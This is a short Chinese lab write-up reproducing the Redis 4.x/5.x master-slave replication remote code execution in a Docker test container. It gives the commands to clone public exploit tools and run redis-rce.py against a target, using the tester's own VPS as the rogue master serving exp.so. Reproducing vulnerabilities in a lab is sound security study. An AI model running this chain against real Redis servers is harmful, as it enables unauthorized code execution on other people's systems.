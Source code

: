 # Redis基于主从复制的RCE 4.x/5.x 复现

## 复现过程：

### 拉取镜像

使用docker获取到相关环境：

```shell
docker search redis5.0    //查找镜像
docker pull damonevking/redis5.0   //获取下图中选中镜像
```

![image-20230707234604816](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20230707234604816.png)

### 运行环境

```shell
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

运行后访问ip的映射端口（此处为6379），出现下图为搭建成功：

![image-20230707235342094](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20230707235342094.png)

或者 nmap 扫描6379端口，如果开放则搭建成功：

![image-20230707235622426](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20230707235622426.png)

### 漏洞利用

使用 github 脚本进行攻击如下图：

![image-20230707235719371](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20230707235719371.png)

拉取到kali-Linux攻击机器中，保留其中的 exp.so 文件：

```git
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
```

拉取漏洞利用文件，利用里面的 redis-rce.py 文件和上面的 exp.so 文件进行攻击：

```
git clone https://github.com/Ridter/redis-rce.git
```

启动脚本，执行攻击命令：

```
python3 redis-rce.py -r **.***.***.87（目标ip） -L ***.***.**.**（自己的vps） -f exp.so
```

利用成功：

![image-20230708012526433](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20230708012526433.png)